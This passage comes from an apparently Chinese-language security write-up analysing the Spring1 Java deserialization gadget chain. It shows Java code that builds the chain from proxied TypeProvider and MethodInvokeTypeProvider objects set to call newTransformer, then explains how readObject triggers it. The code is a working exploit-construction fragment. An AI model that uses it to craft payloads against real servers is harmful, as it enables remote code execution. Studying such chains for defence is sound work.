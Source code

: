 ```plain
        // typeTemplateProxy.hashCode();

        // 接下来代理  TypeProvider 的 getType() 方法，使其返回我们创建的 typeTemplateProxy 代理类
        HashMap<String, Object> map2 = new HashMap<>();
        map2.put("getType", typeTemplateProxy);

        InvocationHandler newInvocationHandler = (InvocationHandler) constructor.newInstance(Target.class, map2);

        Class<?> typeProviderClass = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
        // 使用 AnnotationInvocationHandler 动态代理 TypeProvider 的 getType 方法，使其返回 typeTemplateProxy
        Object typeProviderProxy = Proxy.newProxyInstance(ClassLoader.getSystemClassLoader(),
                new Class[]{typeProviderClass}, newInvocationHandler);


        // 初始化 MethodInvokeTypeProvider
        Class<?>       clazz2 = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
        Constructor<?> cons   = clazz2.getDeclaredConstructors()[0];
        cons.setAccessible(true);
        // 由于 MethodInvokeTypeProvider 初始化时会立即调用  ReflectionUtils.invokeMethod(method, provider.getType())
        // 所以初始化时我们随便给个 Method，methodName 我们使用反射写进去
        Object objects = cons.newInstance(typeProviderProxy, Object.class.getMethod("toString"), 0);
        Field field   = clazz2.getDeclaredField("methodName");
        field.setAccessible(true);
        field.set(objects, "newTransformer");

        // Util.SeralizeUtil.writeObjectToFile(objects,"spring1");
        Util.SeralizeUtil.readFileObject("spring1");
```

接下来通过调试分析一下完整的 Gadget 链触发的过程。

程序反序列化的入口点位于：`org.springframework.core.SerializableTypeWrapper.MethodInvokeTypeProvider#readObject`。当前的`provider`是一个`AnnotationInvocationHandler`动态代理类，`memberValues`存储的`key`为 getType，对应的`value`是一个 ObjectFactoryDelegatingInvocationHandler 动态代理的类，其中的`objectFactory`成员变量同样也是一个由`AnnotationInvocationHandler`动态代理的类。
